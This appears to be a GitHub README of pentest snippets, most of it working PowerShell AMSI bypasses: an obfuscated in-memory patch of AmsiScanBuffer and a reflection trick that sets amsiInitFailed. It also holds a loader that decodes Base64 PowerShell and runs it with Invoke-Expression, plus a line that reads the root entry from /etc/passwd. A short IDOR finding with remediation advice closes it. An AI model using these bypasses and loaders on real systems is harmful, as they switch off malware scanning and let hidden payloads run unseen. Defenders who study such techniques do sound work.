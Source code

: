 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
grep "^root:" /etc/passwd | cut -f4 -d: 

S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

! Define the path to the text file containing the Base64-encoded PowerShell commands
$encodedFilePath = "path\to\your\encodedfile.txt"

! Read the Base64-encoded content from the text file
$encodedContent = Get-Content -Path $encodedFilePath

! Decode the Base64-encoded content
$decodedBytes = [System.Convert]::FromBase64String($encodedContent)
$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

! Execute the decoded PowerShell commands
Invoke-Expression $decodedContent


=============================================================

Insecure Direct Object Reference (IDOR) via Transaction ID Manipulation
Description: Insecure Direct Object Reference (IDOR) via transaction ID manipulation occurs when an application fails to properly authorize access to transaction data. By altering the transaction ID in the URL or request parameters, an attacker can access other users' transaction data, which should not be visible to them.

Impact: This vulnerability can lead to unauthorized access to sensitive financial information, privacy violations, and potential regulatory non-compliance. Attackers can exploit this to view, modify, or manipulate transaction data of other users, leading to severe data breaches and loss of user trust.

Remediation: Implement strict authorization checks to verify that the requesting user has permission to access the specified transaction. Use indirect references or opaque identifiers for transactions instead of direct IDs. Regularly review and test the application for IDOR vulnerabilities.

Reference:

OWASP IDOR
One-liner recommendation: "It is recommended to implement strict authorization checks and use indirect references for transaction IDs to prevent IDOR vulnerabilities."
